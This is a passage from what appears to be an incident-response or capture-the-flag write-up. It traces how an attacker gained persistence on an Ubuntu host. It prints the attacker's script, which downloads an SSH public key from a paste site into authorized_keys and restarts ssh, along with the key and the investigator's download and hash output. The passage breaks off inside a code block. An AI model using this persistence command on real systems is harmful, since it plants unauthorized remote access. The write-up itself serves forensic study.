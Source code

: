 This file was several times upload. After the last one the attacker accessed the text sharing site that we already mentioned. We can access this file:
```
$ curl https://pastes.io/raw/bx5gcr0et8
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart$
$

$ wget https://pastes.io/raw/bx5gcr0et8
--2023-11-14 15:52:52--  https://pastes.io/raw/bx5gcr0et8
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving pastes.io (pastes.io)... 66.29.132.145
Connecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 113 [text/plain]
Saving to: ‘bx5gcr0et8’

bx5gcr0et8                              100%[=============================================================================>]     113  --.-KB/s    in 0s

2023-11-14 15:52:53 (349 MB/s) - ‘bx5gcr0et8’ saved [113/113]

$ md5sum bx5gcr0et8
0dc54416c346584539aa985e9d69a98e  bx5gcr0et8

$ cat bx5gcr0et8
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart$
$
```

### Task 9
Please provide the file hash of the public key used by the attacker to gain persistence on our host.

The public key is downloaded in the shell script from Task 8:
```
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
```

We can download and get create the file hash again:
```
$ curl https://pastes.io/raw/hffgra4unv
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN$

$ wget https://pastes.io/raw/hffgra4unv
--2023-11-14 15:58:34--  https://pastes.io/raw/hffgra4unv
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving pastes.io (pastes.io)... 66.29.132.145
Connecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 380 [text/plain]
Saving to: ‘hffgra4unv’

hffgra4unv                              100%[=============================================================================>]     380  --.-KB/s    in 0s

2023-11-14 15:58:36 (17.8 MB/s) - ‘hffgra4unv’ saved [380/380]

$ cat hffgra4unv
```